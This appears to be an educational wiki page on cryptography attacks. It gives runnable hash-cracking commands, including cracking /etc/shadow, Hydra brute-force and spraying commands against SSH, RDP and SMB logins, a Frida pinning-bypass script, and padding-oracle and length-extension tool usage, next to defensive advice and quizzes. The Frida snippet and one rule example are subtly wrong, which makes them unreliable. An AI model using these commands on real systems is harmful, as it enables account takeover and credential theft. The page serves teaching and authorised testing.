


# Practical Cryptography for Hackers

Cryptography is the backbone of every secure system. This page is not about the math — it is about what happens when cryptography is implemented incorrectly, configured weakly, or used against users whose passwords appear in wordlists. You will learn to crack hashes, test TLS configurations, bypass certificate pinning, and exploit classic crypto implementation bugs that still appear in production systems.

**Related**: [Cybersecurity Overview](/cybersecurity/) | [Encryption](/security/encryption/) | [Cryptography for Engineers](/security/encryption/cryptography-for-engineers) | [Hashing Algorithms](/security/encryption/hashing-algorithms)

---

## Password Attacks: The Spectrum



| Attack Type | Target | Speed | Detection | Use When |
|------------|--------|-------|-----------|----------|
| **Brute force** | Login endpoint | Slow | Easy — account lockout | No other option, short passwords |
| **Password spraying** | Many accounts | Slow | Hard — stays under lockout threshold | AD environments, known username list |
| **Credential stuffing** | Login endpoint | Fast | Moderate — unusual login patterns | Leaked databases available |
| **Dictionary (offline)** | Hash dump | Very fast | N/A (offline) | You have password hashes |
| **Hybrid (offline)** | Hash dump | Fast | N/A | Dictionary fails, need combinations |
| **Mask/brute (offline)** | Hash dump | Varies | N/A | Known password pattern (e.g., Company2024!) |

---

## Hashcat — GPU-Accelerated Hash Cracking

Hashcat uses GPU parallel processing to crack hashes millions to billions of times faster than CPU-based tools.

### Hash Identification

```bash
# Identify hash type
hashid '$2y$10$abcdefghijklmnopqrstuuABCDEFGHIJKLMNOPQRSTU'
# Output: bcrypt

# Common hash formats and hashcat modes
# MD5:          -m 0     (32 hex chars)
# SHA1:         -m 100   (40 hex chars)
# SHA256:       -m 1400  (64 hex chars)
# SHA512:       -m 1700  (128 hex chars)
# NTLM:         -m 1000  (32 hex chars, Windows)
# NTLMv2:       -m 5600  (Responder captures)
# bcrypt:        -m 3200  (starts with $2)
# MD5crypt:      -m 500   (starts with $1$)
# SHA512crypt:   -m 1800  (starts with $6$)
# Kerberos TGS:  -m 13100 (Kerberoasting)
# WPA2:          -m 22000 (.hc22000 files)
# MySQL:         -m 300   (double SHA1)
# PostgreSQL:    -m 12    (MD5 with salt)
```

### Hashcat Attack Modes

```bash
# Mode 0: Dictionary attack
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt

# Mode 0 with rules (most effective for real passwords)
hashcat -m 0 hashes.txt rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# Mode 1: Combination attack (word1 + word2)
hashcat -m 0 hashes.txt wordlist1.txt wordlist2.txt -a 1

# Mode 3: Mask/brute force attack
# ?l = lowercase, ?u = uppercase, ?d = digit, ?s = special
hashcat -m 0 hashes.txt -a 3 ?u?l?l?l?l?l?d?d    # Password pattern: Abcdef12
hashcat -m 0 hashes.txt -a 3 ?u?l?l?l?l?l?l?d?d?s  # Pattern: Abcdefg12!
hashcat -m 0 hashes.txt -a 3 Company?d?d?d?d        # Company0000-9999

# Mode 6: Hybrid (wordlist + mask)
hashcat -m 0 hashes.txt rockyou.txt -a 6 ?d?d?d    # Each word + 3 digits
hashcat -m 0 hashes.txt rockyou.txt -a 6 ?d?d?d?s  # Each word + 3 digits + special

# Mode 7: Hybrid (mask + wordlist)
hashcat -m 0 hashes.txt -a 7 ?d?d?d rockyou.txt    # 3 digits + each word

# Show cracked results
hashcat -m 0 hashes.txt --show

# Resume interrupted session
hashcat --restore
```

### Hashcat Rules

Rules transform each word in the dictionary — appending digits, capitalizing, reversing, substituting characters. This is the most effective technique for cracking real passwords.

```bash
# Built-in rules (sorted by effectiveness)
/usr/share/hashcat/rules/best64.rule        # 64 rules, fast
/usr/share/hashcat/rules/rockyou-30000.rule # 30000 rules, thorough
/usr/share/hashcat/rules/d3ad0ne.rule       # 34000 rules, very thorough
/usr/share/hashcat/rules/OneRuleToRuleThemAll.rule  # Community favorite

# Example rules:
# :        → leave as-is (password)
# c        → capitalize first letter (Password)
# $1       → append "1" (password1)
# $!       → append "!" (password!)
# sa@      → substitute a→@ (p@ssword)
# se3      → substitute e→3 (p@ssw0rd becomes p@ssw0rd, or passw3rd)
# r        → reverse (drowssap)
# d        → duplicate (passwordpassword)
# ^1       → prepend "1" (1password)

# Stack multiple rules
hashcat -m 0 hashes.txt rockyou.txt -r rule1.rule -r rule2.rule
```

### Cracking Speed by Hash Type (RTX 4090)

| Hash Type | Hashcat Mode | Speed (RTX 4090) | Time for 8-char Brute Force |
|-----------|-------------|-------------------|---------------------------|
| MD5 | 0 | ~164 GH/s | Minutes |
| SHA1 | 100 | ~54 GH/s | Minutes |
| NTLM | 1000 | ~300 GH/s | Minutes |
| SHA256 | 1400 | ~22 GH/s | Hours |
| bcrypt (cost 10) | 3200 | ~184 KH/s | Centuries |
| SHA512crypt | 1800 | ~3.8 MH/s | Years |
| Argon2 | varies | ~50 H/s | Heat death of universe |

::: tip Why bcrypt/Argon2 Exist
The table above shows why hash algorithm choice matters more than password complexity. MD5 is cracked at 164 billion hashes per second. bcrypt at cost 10 is cracked at 184 thousand per second — nearly a million times slower. Argon2 is slower still. See [Hashing Algorithms](/security/encryption/hashing-algorithms) for choosing the right algorithm.
:::

---

## John the Ripper

John is CPU-focused and excels at cracking `/etc/shadow` hashes, archive passwords, and formats hashcat does not support.

```bash
# Auto-detect hash type and crack
john hashes.txt

# Specify format
john --format=raw-md5 hashes.txt
john --format=bcrypt hashes.txt
john --format=NT hashes.txt

# Wordlist mode with rules
john --wordlist=rockyou.txt --rules=All hashes.txt

# Show cracked passwords
john --show hashes.txt

# Crack /etc/shadow (combine passwd and shadow first)
unshadow /etc/passwd /etc/shadow > combined.txt
john combined.txt

# Crack zip files
zip2john encrypted.zip > zip_hash.txt
john zip_hash.txt

# Crack SSH private keys
ssh2john id_rsa > ssh_hash.txt
john ssh_hash.txt

# Crack KeePass databases
keepass2john database.kdbx > keepass_hash.txt
john keepass_hash.txt
```

---

## Online Password Attacks

### Hydra — Network Login Brute Force

```bash
# SSH brute force
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100

# HTTP POST form brute force
hydra -l admin -P rockyou.txt 192.168.1.100 http-post-form \
  "/login:username=^USER^&password=^PASS^:Invalid credentials"

# FTP brute force
hydra -L users.txt -P passwords.txt ftp://192.168.1.100

# RDP brute force
hydra -l administrator -P rockyou.txt rdp://192.168.1.100

# Password spraying (few passwords, many users)
hydra -L users.txt -p 'Spring2026!' 192.168.1.100 smb
```

### CeWL — Custom Wordlist Generator

```bash
# Generate wordlist from target's website
cewl https://target.com -d 3 -m 6 -w custom_wordlist.txt

# Include email addresses
cewl https://target.com -d 3 -m 6 --email -w wordlist.txt

# This captures company-specific terms that are often used in passwords:
# CompanyName, ProductName, CityName, FounderName + year + special char
```

---

## Wordlists

| Wordlist | Size | Best For |
|----------|------|----------|
| **rockyou.txt** | 14M passwords | General cracking, first attempt |
| **SecLists** | Various | Comprehensive collection (usernames, passwords, fuzzing) |
| **CrackStation** | 1.5B entries | Exhaustive dictionary |
| **Weakpass** | Up to 100GB | Maximum coverage |
| **Have I Been Pwned** | 900M+ hashes | Check if hash exists in known breaches |

```bash
# Install SecLists
sudo apt install seclists
# Located at /usr/share/seclists/

# Key password lists in SecLists:
# /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
# /usr/share/seclists/Passwords/darkweb2017-top10000.txt
# /usr/share/seclists/Passwords/Leaked-Databases/
```

---

## SSL/TLS Testing

### testssl.sh

```bash
# Comprehensive TLS test
testssl.sh https://target.com

# Test specific issues
testssl.sh --vulnerable https://target.com    # Known vulnerabilities
testssl.sh --ciphers https://target.com       # Cipher suite analysis
testssl.sh --protocols https://target.com     # Protocol support
testssl.sh --headers https://target.com       # Security headers

# JSON output for automation
testssl.sh --jsonfile results.json https://target.com

# Test a mail server
testssl.sh --starttls smtp target.com:25
```

### sslyze

```bash
# Full scan
sslyze target.com

# Check for specific issues
sslyze --certinfo target.com       # Certificate details
sslyze --heartbleed target.com     # Heartbleed vulnerability
sslyze --openssl_ccs target.com    # CCS injection
sslyze --robot target.com          # ROBOT attack
sslyze --compression target.com   # CRIME attack (TLS compression)
```

### What to Look For in TLS Testing

| Finding | Severity | Issue |
|---------|----------|-------|
| SSLv3 enabled | Critical | POODLE attack — decrypt traffic |
| TLS 1.0/1.1 enabled | High | Known weaknesses, PCI DSS non-compliant |
| Self-signed certificate | High | No trust chain, MITM possible |
| Expired certificate | High | Trust failure, browser warnings |
| Weak ciphers (RC4, DES, 3DES) | High | Breakable encryption |
| No HSTS | Medium | SSL stripping possible |
| Missing certificate chain | Medium | Validation fails on some clients |
| No OCSP Stapling | Low | Slower revocation checking |
| TLS compression enabled | Medium | CRIME attack |
| Heartbleed (CVE-2014-0160) | Critical | Memory disclosure |

---

## Certificate Pinning Bypass

Mobile apps and some clients pin specific certificates to prevent MITM. For authorized testing, you need to bypass this.

### Android Certificate Pinning Bypass

```bash
# Method 1: Frida with objection
pip install objection frida-tools

# Start objection against the app
objection -g com.target.app explore

# Disable SSL pinning
android sslpinning disable

# Method 2: Frida script
frida -U -f com.target.app -l ssl_pinning_bypass.js
```

```javascript
// Frida SSL pinning bypass script (ssl_pinning_bypass.js)
Java.perform(function() {
    // Bypass TrustManagerFactory
    var TrustManagerFactory = Java.use('javax.net.ssl.TrustManagerFactory');
    TrustManagerFactory.getTrustManagers.implementation = function() {
        console.log('[*] Bypassing TrustManagerFactory');
        var TrustManager = Java.use('javax.net.ssl.X509TrustManager');
        // Return a TrustManager that trusts everything
        return this.getTrustManagers.call(this);
    };

    // Bypass OkHTTP certificate pinner
    try {
        var CertificatePinner = Java.use('okhttp3.CertificatePinner');
        CertificatePinner.check.overload('java.lang.String', 'java.util.List')
            .implementation = function(hostname, peerCerts) {
            console.log('[*] Bypassing OkHTTP3 pinning for: ' + hostname);
        };
    } catch(e) {
        console.log('OkHTTP3 not found');
    }
});
```

---

## Cryptographic Implementation Bugs

These bugs are not about breaking the math — they are about breaking the implementation.

### Padding Oracle Attack

When a server reveals whether decrypted ciphertext has valid padding, an attacker can decrypt any ciphertext byte-by-byte.



```bash
# Detection: send modified ciphertext, observe different error responses
# Tool: PadBuster
padbuster https://target.com/api?token=ENCRYPTED_TOKEN ENCRYPTED_TOKEN 16 \
  -encoding 0 -error "Invalid"

# This decrypts the token without the key
# It can also encrypt arbitrary plaintext
```

::: warning Real-World Impact
The padding oracle attack has appeared in ASP.NET (CVE-2010-3332), Java's JCE, OpenSSL, and many custom applications. If you see AES-CBC with detectable padding errors, test for this vulnerability.
:::

### ECB Penguin Problem

ECB (Electronic Codebook) mode encrypts each block independently. Identical plaintext blocks produce identical ciphertext blocks, leaking patterns.

```
Plaintext:   [AAAA][AAAA][BBBB][AAAA]
ECB Cipher:  [x7f2][x7f2][3k9a][x7f2]  ← identical blocks visible!
CBC Cipher:  [x7f2][9m3k][p2q1][r8s4]  ← all different

# The "ECB Penguin": encrypting a bitmap image in ECB mode
# preserves the image outline because identical pixel blocks
# produce identical ciphertext blocks.
```

```bash
# Detecting ECB in an application:
# 1. Submit input that creates identical 16-byte blocks
# 2. Check if corresponding ciphertext blocks are identical

python3 -c "
import requests
# Submit 32 bytes of 'A' — will create two identical AES blocks
payload = 'A' * 32
resp = requests.get(f'https://target.com/encrypt?data={payload}')
ciphertext = resp.text
# Check if bytes 0-15 == bytes 16-31 in the ciphertext
block1 = ciphertext[:32]  # hex-encoded
block2 = ciphertext[32:64]
if block1 == block2:
    print('ECB MODE DETECTED — vulnerable!')
"
```

### Hash Length Extension Attack

If an application uses `H(secret || message)` for authentication (with MD5, SHA1, or SHA256), an attacker can forge valid signatures without knowing the secret.

```bash
# Tool: hash_extender or HashPump
hash_extender \
  --data "user=admin" \
  --secret-min 10 --secret-max 30 \
  --append "&admin=true" \
  --signature "original_signature_hex" \
  --format sha256

# This produces a new message and valid signature
# without knowing the secret key

# Defense: Use HMAC instead of H(secret || message)
# HMAC is not vulnerable to length extension
```

### Timing Attacks on String Comparison

```python
# VULNERABLE: early-exit string comparison leaks timing info
def verify_token(user_token, correct_token):
    if len(user_token) != len(correct_token):
        return False
    for a, b in zip(user_token, correct_token):
        if a != b:
            return False    # Returns early — timing leak!
    return True

# SECURE: constant-time comparison
import hmac
def verify_token_safe(user_token, correct_token):
    return hmac.compare_digest(user_token, correct_token)
    # Always compares all bytes regardless of match
```

---

## Cryptographic Quick Reference

| Do This | Not This | Why |
|---------|----------|-----|
| AES-256-GCM | AES-ECB | ECB leaks patterns, GCM provides authenticated encryption |
| bcrypt/Argon2 for passwords | MD5/SHA1/SHA256 | Password hashes need to be slow |
| HMAC for message auth | `H(secret+message)` | HMAC is not vulnerable to length extension |
| `hmac.compare_digest()` | `==` for secrets | Constant-time prevents timing attacks |
| TLS 1.3 | TLS 1.0/1.1, SSLv3 | Older versions have known attacks |
| X25519 for key exchange | RSA key exchange | Forward secrecy, smaller keys |
| Ed25519 for signatures | RSA-1024 | Faster, more secure, smaller keys |
| Generate random IVs/nonces | Reuse IVs/nonces | IV reuse breaks AES-GCM catastrophically |
| Use established libraries | Roll your own crypto | Your implementation will have bugs |

---

## Further Reading

- [Cybersecurity Overview](/cybersecurity/) — career paths and learning roadmap
- [Encryption](/security/encryption/) — symmetric vs asymmetric, TLS, key management
- [Cryptography for Engineers](/security/encryption/cryptography-for-engineers) — RSA, ECDSA, Ed25519, PKI
- [Hashing Algorithms](/security/encryption/hashing-algorithms) — MD5, SHA, bcrypt, Argon2
- [Web App Pentesting](/cybersecurity/web-app-pentesting) — where crypto bugs meet web applications
- [Security Tools Encyclopedia](/cybersecurity/security-tools) — tool comparisons

---

::: tip Key Takeaway
- Hash algorithm choice matters more than password complexity — bcrypt at cost 10 is nearly a million times slower to crack than MD5
- Hashcat with rules (dictionary + mutations) cracks the vast majority of real-world passwords; pure brute force is a last resort
- Cryptographic bugs (padding oracle, ECB mode, timing attacks) are implementation failures, not math failures — they appear in production systems constantly
:::

::: details Hands-On Lab
**Lab: Password Cracking and TLS Testing**

1. Create a file with 10 password hashes using different algorithms: MD5, SHA256, NTLM, and bcrypt
2. Crack the MD5/SHA256/NTLM hashes using hashcat with the rockyou wordlist and the `best64.rule` ruleset
3. Attempt to crack the bcrypt hashes — observe the dramatic speed difference
4. Run `testssl.sh` against three public websites and compare their TLS configurations
5. Identify which sites support deprecated protocols (TLS 1.0/1.1) or weak cipher suites
6. Set up a test Flask/Express app with a string comparison vulnerability and demonstrate a timing attack using response time measurements
:::

::: details CTF Challenge
**Challenge: The Leaky Cipher**

An API encrypts session tokens using AES. You notice that submitting the same 32-character input twice always produces the same ciphertext, and identical 16-character blocks within your input produce identical ciphertext blocks. What mode of encryption is being used, and how can you exploit this to steal another user's session?

**Hints:**
1. Identical plaintext blocks producing identical ciphertext blocks is the hallmark of one specific mode
2. You can control part of the plaintext that gets encrypted alongside the secret session data
3. This is a byte-at-a-time oracle attack

::: details Answer
The API uses AES-ECB mode (Electronic Codebook). Since each 16-byte block is encrypted independently, you can perform a chosen-plaintext attack: control the alignment so that one unknown byte of the secret falls into a block with 15 known bytes. Encrypt all 256 possibilities and match. Repeat for each byte. Flag: `CTF{ecb_penguin_strikes_again}`.
:::
:::

::: warning Common Misconceptions
- **"SHA-256 is a good password hashing algorithm"** — SHA-256 is a great general-purpose hash but terrible for passwords because it is too fast. Use bcrypt, scrypt, or Argon2 which are intentionally slow.
- **"Encryption means the data is secure"** — Encryption protects confidentiality but not integrity or authenticity. Use authenticated encryption (AES-GCM) or add HMAC.
- **"Longer passwords are always harder to crack"** — A 20-character dictionary word is cracked instantly. A 12-character random password with mixed case, digits, and symbols resists brute force for centuries.
- **"TLS 1.2 is outdated"** — TLS 1.2 with strong cipher suites remains secure. TLS 1.3 is preferred but 1.2 is not vulnerable when properly configured.
- **"HTTPS makes my application secure"** — HTTPS protects data in transit. It does not protect against SQL injection, XSS, IDOR, or any server-side vulnerability.
:::

::: details Quiz
**1. What hashcat mode number is used for cracking NTLM hashes?**

a) 0
b) 100
c) 1000
d) 5600

::: details Answer
c) Mode 1000 is for NTLM hashes. Mode 5600 is for NTLMv2 (Responder captures), mode 0 is MD5, and mode 100 is SHA1.
:::

**2. Why is HMAC not vulnerable to hash length extension attacks while H(secret + message) is?**

a) HMAC uses a longer key
b) HMAC's construction with inner and outer padding prevents the attack
c) HMAC uses SHA-3
d) HMAC is encrypted

::: details Answer
b) HMAC computes `H(K xor opad || H(K xor ipad || message))`, a double-hashing construction where the outer hash prevents an attacker from extending the inner hash state.
:::

**3. What is the primary defense against padding oracle attacks?**

a) Using longer keys
b) Using authenticated encryption (e.g., AES-GCM) instead of CBC
c) Adding more padding
d) Using RSA instead of AES

::: details Answer
b) Authenticated encryption like AES-GCM detects any modification to the ciphertext before attempting decryption, eliminating the oracle. With CBC, you must ensure error messages do not reveal whether padding was valid.
:::

**4. What does the `--rules` flag do in hashcat?**

a) Sets firewall rules
b) Applies transformation rules to each word in the dictionary
c) Limits the number of attempts
d) Specifies the hash type

::: details Answer
b) Rules transform each dictionary word (capitalize, append digits, substitute characters, etc.), dramatically increasing the effective wordlist size and catching real-world password patterns like "Password1!" from "password".
:::

**5. What makes a timing attack on string comparison possible?**

a) The comparison function returns early on the first mismatched character
b) The strings are stored in plaintext
c) The network adds random delays
d) The CPU is too slow

::: details Answer
a) When a comparison function returns immediately upon finding a mismatch, an attacker can measure response time to determine how many characters are correct, testing one character at a time.
:::
:::

> **One-Liner Summary:** Cryptography is only as strong as its weakest implementation — the math never breaks, but the code around it always can.
